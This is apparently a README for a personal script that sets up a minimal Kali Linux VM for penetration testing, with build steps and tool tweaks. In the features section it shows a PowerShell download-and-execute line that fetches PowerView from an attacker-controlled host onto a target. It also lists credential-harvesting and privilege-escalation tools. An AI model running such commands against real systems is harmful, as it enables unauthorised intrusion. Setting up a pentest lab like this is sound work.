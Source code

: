 # Kali-Clean

![screenshot](./images/screenshot.png?raw=true)

[xct/kali-clean](https://github.com/xct/kali-clean) with personal tweaks and borrowed ideas from [islanddog/kali-clean-pwnbox](https://github.com/islanddog/kali-clean-pwnbox).

This post-installation script is intended to be used on minimal Kali VM with no tools. I used [the official VM build script](https://gitlab.com/kalilinux/build-scripts/kali-vm) with the following options to get started. It should still work fine on a bare metal installation.

```
./build.sh -v vmware -D none -Z $(cat /etc/timezone) -T none -P "network-manager curl neovim"

# alternatively
./build.sh -v qemu -D none -Z $(cat /etc/timezone) -T none -P "network-manager curl neovim"
```

If you are building on a Windows machine:

- you will need WSL2
- install docker in WSL2

```
# confirm you are running WSL2
wsl --version

# start the docker service
sudo systemctl start docker

# continue building your kali VM
./build-in-container.sh -v vmware -D none -Z $(cat /etc/timezone) -T none -P "network-manager curl neovim"

# copy from WSL to your Windows host (eg. Downloads folder)
cp -r images/kali-linux-rolling-vmware-amd64.vmwarevm /mnt/c/Users/<USER>/Downloads
```

## Installation

```
sudo -sE ./install.sh 2>install.err
```

## QoL Improvements vs default Kali
- Built in cheatsheets using [Navi](https://github.com/denisidoro/navi)
```
navi --print
# alias is 'n'
n
```
- Windows binaries symlinked into Apache webroot
```
# binaries located in /var/www/html/win/
sudo systemctl start apache2
# on target
IEX(New-Object Net.WebClient).DownloadString("http://<LHOST>/win/powerview.ps1")
```
- Modularity: Optional install scripts in `kali-clean/optional_installs/`
```
# example: you want to install python2 for legacy python exploits
# reference: https://www.kali.org/docs/general-use/using-eol-python-versions/
# simply run the following script from the optional_installs folder
./install_python2.sh
```
- IP address of `tun0` is displayed, no need to run `ip a` everytime
- Better firefox profile: Removed default bookmarks, added useful extensions (eg. foxyproxy) and made restore tabs on startup the default.

## TODOs

- script to patch .local/share/navi/cheats
- [BAREMETAL] network manager applet
- [BAREMETAL] calendar applet

## Checkout
Below are things I will get around to trying and will add them to the install script if I find them useful.
- https://github.com/trustedsec/unicorn
- https://github.com/sevagas/macro_pack
- https://github.com/Flangvik/SharpCollection
- https://github.com/bohops/GhostBuild
- https://github.com/AdrianVollmer/PowerHub
- https://github.com/BeichenDream/GodPotato
- https://github.com/antonioCoco/RunasCs
- Note: If using GodPotato, it's easier to create a new admin user and switch to them with RunasCs.
- https://github.com/AlessandroZ/LaZagne or Snaffler
- https://github.com/Azathothas/Toolpacks

## Credit
- https://github.com/AyoItsYas/Mainte
